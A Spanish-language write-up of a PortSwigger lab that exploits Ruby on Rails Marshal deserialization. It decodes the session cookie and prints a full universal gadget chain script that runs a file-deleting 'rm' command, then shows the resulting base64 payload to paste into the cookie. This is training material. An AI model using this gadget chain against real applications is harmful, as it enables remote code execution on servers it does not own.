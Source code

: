 ```yaml
---
title: Exploiting Ruby deserialization using a documented gadget chain
description: Laboratorio de Portswigger sobre Insecure Deserialization
date: 2025-01-02 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Insecure Deserialization
tags:
  - Portswigger Labs
  - Insecure Deserialization
  - Exploiting Ruby deserialization using a documented gadget chain
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en la `serialización` y el `framework Ruby on Rails`. Existen `exploits documentados` que permiten la `ejecución remota de código` mediante una `cadena de gadgets` en este `framework`. Para `resolver` el laboratorio, debemos encontrar un `exploit documentado` y adaptarlo para crear un `objeto serializado malicioso` que contenga una `carga útil de ejecución remota de código`. Luego, pasamos este `objeto` al `sitio web` para eliminar el archivo `morale.txt` del `directorio personal` de Carlos. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-7/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-7/image_2.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Insecure-Deserialization-Lab-7/image_3.png)

El `token` está en `base64` así que lo `decodeamos` y vemos que es un `objeto`, esta estructura es típica de la librería `Marshal` de `ruby`

```
# echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVpa2dnNzM0b3huMnlmaGRpbnB1bGczbDhreGRubGNnZAY7B0YK' | base64 -d 
o:	User:@usernameI"
                        wiener:EF:@access_tokenI"%ikgg734oxn2yfhdinpulg3l8kxdnlcgd;F 
```

En esta web [https://nastystereo.com/security/ruby-3.4-deserialization.html](https://nastystereo.com/security/ruby-3.4-deserialization.html) podemos encontrar `artículos` para `efectuar` un `Deserialization Gadget Chain` en `ruby`. En mi caso voy a usar este `script` extraído de [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) que nos `genera` un `objeto serializado` en `ruby`, el cual nos permite `ejecutar comandos` en `versiones` de ruby `inferiores` a la `3.0.2`

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

require "base64"
puts Base64.encode64(payload).gsub("\n", "")
```

En mi caso he usado [https://www.jdoodle.com/execute-ruby-online](https://www.jdoodle.com/execute-ruby-online) para `seleccionar` la `versión correspondiente` y `generar` el `payload` en `base64`

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ
```

Debido a que el parámetro `session` de la `cookie` es un `objeto` de `ruby`, podemos `abrirnos` el `navegador` y con `Ctrl + Shift + i` pegar el `objeto` que hemos `creado`

![](/assets/img/Insecure-Deserialization-Lab-7/image_4.png)

